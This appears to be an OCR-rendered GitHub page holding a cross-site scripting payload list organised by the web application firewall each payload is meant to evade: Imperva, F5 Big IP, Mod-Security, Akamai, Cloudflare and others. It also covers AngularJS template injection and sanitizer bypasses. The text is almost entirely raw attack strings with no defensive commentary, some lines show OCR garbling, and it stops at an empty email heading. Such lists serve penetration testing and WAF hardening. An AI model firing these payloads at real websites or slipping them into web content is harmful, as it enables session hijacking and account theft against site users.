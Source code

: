```html
<scr<script>ipt>alert(1)</scr</script>ipt>

# Inject anchor tag
<a/href="j&Tab;a&Tab;v&Tab;asc&Tab;ri&Tab;pt:alert&lpar;1&rpar;">

# Bypass whitespaces
<svg·onload=alert(1)>

# Brutelogic
\\'-alert(1)//
</script><svg onload=alert(1)>
<x contenteditable onblur=alert(1)>lose focus!

# Imperva Incapsula
%3Cimg%2Fsrc%3D%22x%22%2Fonerror%3D%22prom%5Cu0070t%2526%2523x28%3B%2526%25 23x27%3B%2526%2523x58%3B%2526%2523x53%3B%2526%2523x53%3B%2526%2523x27%3B%25 26%2523x29%3B%22%3E
<img/src="x"/onerror="[JS-F**K Payload]">
<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';><img/src=q onerror='new Function`al\\\\ert\\\\`1\\\\``'>

# WebKnight
<details ontoggle=alert(1)>
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="alert(1)">

# F5 Big IP
<body style="height:1000px" onwheel="[DATA]">
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="[DATA]">
<body style="height:1000px" onwheel="[JS-F**k Payload]">
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="[JS-F**k Payload]">
<body style="height:1000px" onwheel="prom%25%32%33%25%32%36x70;t(1)">
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="prom%25%32%33%25%32%36x70;t(1)">

# PHP-IDS
<svg+onload=+"[DATA]"
<svg+onload=+"aler%25%37%34(1)"

# Mod-Security
<a href="j[785 bytes of (&NewLine;&Tab;)]avascript:alert(1);">XSS</a>
1⁄4script3⁄4alert(¢xss¢)1⁄4/script3⁄4
<b/%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35mouseover=alert(1)>

# Sucuri WAF
1⁄4script3⁄4alert(¢xss¢)1⁄4/script3⁄4

# Akamai
1%3C/script%3E%3Csvg/onload=prompt(document[domain])%3E
<SCr%00Ipt>confirm(1)</scR%00ipt>

# AngularJS
{{constructor.constructor(alert 1 )()}}

#html Sanitization Bypass
<00 foo="<a%20href="javascript:alert('XSS-Bypass')">XSS-CLick</00>--%20/

# Bypass ‘ ‘ ( ) 
<iframe/src=javascript:alert%26%23x000000028%3b%27hacked%27)>

# waf Bypass SVG
<svg><a xlink:href=?usemap=/*&#x26;#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;*/onmouseover=window.focus()//>Hover me</a></svg>
<Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBCeXBhc3NlZCA6KQ=="))>

# XSS in email Section
```